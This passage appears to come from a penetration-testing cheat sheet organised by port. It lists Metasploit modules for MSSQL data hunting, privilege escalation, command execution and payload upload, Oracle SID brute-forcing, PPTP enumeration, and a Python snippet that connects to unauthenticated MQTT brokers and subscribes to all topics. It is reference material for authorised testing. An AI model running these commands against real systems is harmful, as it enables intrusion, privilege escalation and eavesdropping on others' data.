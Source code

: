 ```bash
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass

```

### Port 1521 - Oracle
```bash
oscanner -s $IP -P 1521
tnscmd10g version -h $IP
tnscmd10g status -h $IP
nmap -p 1521 -A $IP
nmap -p 1521 --script=oracle-tns-version,oracle-sid-brute,oracle-brute
#MSF
use auxiliary/admin/oracle
use auxiliary/scanner/oracle
```

### Port 1723 - PPTP
```bash
# Enumeration
nmap –Pn -sSV -p1723 $IP

```
### Port 1883 - MQTT (Mosquitto)

To connect to a MQTT service you can use: https://github.com/bapowell/python-mqtt-client-shell
```bash
> connect (NOTICE that you need to indicate before this the params of the connection, by default 127.0.0.1:1883)
> subscribe "#" 1
> subscribe "$SYS/#"

```
Or you could run this code to try to connect to a MQTT service without authentication, subscribe to every topic and listen them:
```python
#This is a modified version of https://github.com/Warflop/IOT-MQTT-Exploit/blob/master/mqtt.py
import paho.mqtt.client as mqtt
import time
import os

HOST = "127.0.0.1"
PORT = 1883

def on_connect(client, userdata, flags, rc):
    client.subscribe('#', qos=1)
    client.subscribe('$SYS/#')

```